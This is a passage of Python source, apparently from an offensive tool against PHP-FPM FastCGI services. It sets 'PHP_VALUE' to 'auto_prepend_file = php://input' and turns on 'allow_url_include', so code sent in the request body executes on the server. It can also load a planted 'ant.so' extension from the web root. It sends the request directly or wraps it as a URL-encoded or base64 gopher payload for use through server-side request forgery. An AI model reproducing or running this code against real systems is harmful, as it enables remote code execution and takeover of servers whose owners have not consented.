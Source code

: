 ```python
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '9985',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1',
'CONTENT_TYPE': 'application/text',
'CONTENT_LENGTH': "%d" % len(args.code),
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
if args.ext and args.include_file:
#params['PHP_ADMIN_VALUE']='extension = '+args.ext
params['PHP_ADMIN_VALUE']="extension_dir = /var/www/html\nextension = ant.so"
params['PHP_VALUE']='auto_prepend_file = '+args.include_file
if not args.url_format and not args.base64_format :
response = client.request(params, args.code)
print(force_text(response))
else:
response = client.gopher(params, args.code)
if args.url_format:
print(urllib.quote(response))
if args.base64_format:
print(base64.b64encode(response))
```



